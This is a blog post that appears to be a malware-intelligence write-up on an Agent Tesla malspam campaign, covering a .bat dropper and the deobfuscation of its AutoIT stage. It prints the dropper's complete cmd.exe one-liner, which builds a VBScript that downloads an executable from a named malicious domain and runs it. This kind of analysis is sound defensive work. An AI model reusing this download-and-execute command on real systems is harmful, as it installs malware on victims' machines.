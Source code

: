 ```yaml
---
layout: post
title:  "[MALSPAM] Deep analysis of new Agent Tesla campaign with AutoIT dropper"
date:   2020-03-05
category: blog
---
```


The 29th of February 2020, our **Malware Intelligence** system found a new malspam email with target CommunicationValley Reply.
The email was the following:
<figure>
<img src="https://i.ibb.co/fxF21SB/mail.png" alt="malspam" style="width:60%">
<figcaption>Figure 1: Malspam email</figcaption>
</figure>

The attachment of this malspam email wasn't the usual Microsoft Office dropper with macros,  but a simple .bat dropper that did nothing but download and run the real AutoIT malware from this domain: **hxxp://www.bitsandbytes.net.in/bobbbb.exe**
- Hash:**2f850dfe603b274604a1c2db112eb7b2**
- Name:**STATMENT OF ACCOUNT.bat**
- Code:
> cmd.exe /c "@echo Set objXMLHTTP=CreateObject("MSXML2.XMLHTTP")>%TEMP%poc.vbs&@echo objXMLHTTP.open "GET","http://www.bitsandbytes.net.in/bobbbb.exe",false>>%TEMP%poc.vbs&@echo objXMLHTTP.send()>>%TEMP%poc.vbs&@echo If objXMLHTTP.Status=200 Then>>%TEMP%poc.vbs&@echo Set objADOStream=CreateObject("ADODB.Stream")>>%TEMP%poc.vbs&@echo objADOStream.Open>>%TEMP%poc.vbs&@echo objADOStream.Type=1 >>%TEMP%poc.vbs&@echo objADOStream.Write objXMLHTTP.ResponseBody>>%TEMP%poc.vbs&@echo objADOStream.Position=0 >>%TEMP%poc.vbs&@echo objADOStream.SaveToFile "%TEMP%\LDTVF.exe">>%TEMP%poc.vbs&@echo objADOStream.Close>>%TEMP%poc.vbs&@echo Set objADOStream=Nothing>>%TEMP%poc.vbs&@echo End if>>%TEMP%poc.vbs&@echo Set objXMLHTTP=Nothing>>%TEMP%poc.vbs&@echo Set objShell=CreateObject("WScript.Shell")>>%TEMP%poc.vbs&@echo objShell.Exec("%TEMP%\LDTVF.exe")>>%TEMP%poc.vbs&cscript.exe %TEMP%poc.vbs"

The downloaded **bobbbb.exe** is an AutoIT executable that contains an Agent Tesla payload.

## AutoIT Dropper Deobfuscation

AutoIT is a scripting language for Windows, really used to create malwares because of his high-level abstraction and his low rate of antivirus detection.
Fortunately, it's compilation process is easily to invert, with tools like [Exe2Aut](http://domoticx.com/autoit3-decompiler-exe2aut/), that returns an almost perfect AutoIT source code. However, the code is, really often, highly obfuscated, then difficult to understand.

As you can see in figure 3, all strings are encrypted by one or more levels of obfuscation. Fortunately all those decryption functions return a string, and since we can modify the source code, I modified those functions directly in the program to write to a file the result of the decryption. After that, with a simple python script a subsituted in the source code the decrypted strings to obtain something more readable. 

In Figure 2 you can see the main function of this executable:

<figure>
<a href="https://ibb.co/GM4HYkX"><img src="https://i.ibb.co/t2TLjcS/Screenshot-from-2020-03-04-14-34-39.png" alt="Main Function" style="width:100%"></a>
<figcaption>Figure 2: Main function deobfuscated</figcaption>
</figure>
